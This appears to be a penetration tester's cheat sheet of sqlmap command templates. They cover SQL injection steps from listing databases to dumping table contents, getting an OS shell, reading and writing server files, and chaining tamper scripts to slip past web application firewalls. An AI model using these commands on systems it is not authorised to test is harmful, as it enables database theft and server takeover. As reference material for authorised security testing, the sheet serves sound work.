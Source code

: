 # SQLMAP

% sql injection
#plateform/linux #target/remote #cat/ATTACK/INJECTION  #port/80 #port/443 #port/8080 #port/8443

## basic sqlmap step 1
```
sqlmap -u <url> -p <arguments> --dbs
```

## basic sqlmap step 2
```
sqlmap -u <url> -p <arguments> --dbms=<database_type>
```

## basic sqlmap step 3
```
sqlmap -u <url> -p <arguments> --dbms=<database_type> -D <database_name> --tables
```

## basic sqlmap step 4
```
sqlmap -u <url> -p <arguments> --dbms=<database_type> -D <database_name> -T <tables> --columns
```

## basic sqlmap step 5
```
sqlmap -u <url> -p <arguments> --dbms=<database_type> -D <database_name> -T <tables> -C <columns> --dump
```

## sqlmap - list dbs
```
sqlmap -u <url> --dbs
```

## sqlmap - list tables
```
sqlmap -u <url> -D <db> --tables
```

## sqlmap - dump a table
```
sqlmap -u <url> -D <db> -T <table> --dump
```

## sqlmap - list columns of a table
```
sqlmap -u <url> -D <db> -T <table> --columns
```

## sqlmap - dump only some tables columns
```
sqlmap -u <url> -D <db> -T <table> -C <c1>,<c2> --dump
```

## sqlmap - get shell
```
sqlmap -u <url> --os-shell
```

## sqlmap - file read
```
sqlmap -u <url> --file-read=<remote_file>
```

## sqlmap - file write
```
sqlmap -u <url> --file-write=<local_file> --file-dest=<remote_path_destination>
```

## sqlmap - classic get
```
sqlmap -u <url>
```

## sqlmap - classic post
```
sqlmap -u <url> -d "<params>"
```

## sqlmap - get with cookie
```
sqlmap -u <url> --cookie=<cookie>
```

## sqlmap - use file
```
sqlmap -r <request_file>
```

## sqlmap - classic with tamper
```
sqlmap -u '<url>' tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

## sqlmap - hardcore
```
sqlmap -u '<url>' --level=5 --risk=3 -p '<parameter>' --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
```

## sqlmap - mysql tamper list
```
sqlmap -u <url> --dbms=MYSQL tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

## sqlmap - mssql tamper list
```
sqlmap -u <url> --dbms=MSSQL tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```

